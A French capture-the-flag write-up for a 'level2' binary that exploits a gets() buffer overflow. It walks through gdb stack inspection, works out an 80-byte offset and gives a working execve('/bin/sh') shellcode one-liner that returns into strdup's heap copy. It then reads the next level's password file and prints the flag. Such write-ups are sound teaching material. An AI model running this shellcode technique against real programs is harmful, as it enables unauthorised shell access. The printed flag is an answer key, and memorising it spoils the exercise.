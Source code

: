 Dans ce niveau on a encore un executable ```level2```

On va le passer dans gdb avec ```info functions```, ```disas main``` et ```disas p``` (fonction appele par le main)

Dans la fonction p il y a enocre la fonction ```gets``` qui est vulnerable mais aussi ```strdup```

On va commencer par run la fonction avec un ```b *0x08048500``` pour s'arreter avant la comparaison

On va tester 'aaaaa' pour remplir le buffer de gets et chercher l'adresse de depart ```x/12wx $esp```
```sh
(gdb) x/12wx $esp
0xbffff6c0:	0xbffff6dc	0x00000000	0x00000000	0xb7e5ec73
0xbffff6d0:	0x080482b5	0x00000000	0x00000000	0x61616161
0xbffff6e0:	0xbffff800	0x0000002f	0xbffff73c	0xb7fd0ff4
```
Ici on voit bien notre ```aaaaa``` avec ```0x61616161``` donc le depart est a ```0xbffff6dc```

Ensuite avec ```(gdb) i f``` on voit ou start $eip = ```eip at 0xbffff72c``` :
```sh
(gdb) i f
Stack level 0, frame at 0xbffff730:
 eip = 0x8048500 in p; saved eip 0x804854a
 called by frame at 0xbffff740
 Arglist at 0xbffff728, args: 
 Locals at 0xbffff728, Previous frame's sp is 0xbffff730
 Saved registers:
  ebp at 0xbffff728, eip at 0xbffff72c
```

Pour obtenir la taille du buffer on va soustraire les les deux starts cat les registres se suivent :
    ```0xbffff72c - 0xbffff6dc = 3221223212 - 3221223132 = 80``` Donc 80 bytes.

Le but maintenant va etre d'injecter du shellcode sous forme de bytes, on va lui envoyer ```execve("/bin/sh")``` qui prend 28 bytes:
    ```\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80```

Il va falloir remplir le buffer avec 80 - 28 = 52 bytes

Et par la suite on va utiliser l'adresse de strdup qui copie dans la heap :
```sh
ltrace ./level2 
__libc_start_main(0x804853f, 1, 0xbffff7f4, 0x8048550, 0x80485c0 <unfinished ...>
fflush(0xb7fd1a20)                              = 0
gets(0xbffff6fc, 0, 0, 0xb7e5ec73, 0x80482b5)   = 0xbffff6fc
puts("")                                        = 1
strdup("")                                      = 0x0804a008
```

Voici la commande pour lancer notre /bin/sh avec l'overflow :

```(cat <(python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "a"*52 + "\x08\xa0\x04\x08"') -) | ./level2```

Le script permet de lire dans le 'fichier' temporaire qui contient le script python puis dit de laisser ```stdin``` ouvert avec ```(cat <() -)```

Une fois la commande lancee le buffer overflow et note /bin/bahs se lance on peut donc ```cat /home/user/level3/.pass``` pour obtenir le flag:
    ```492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02```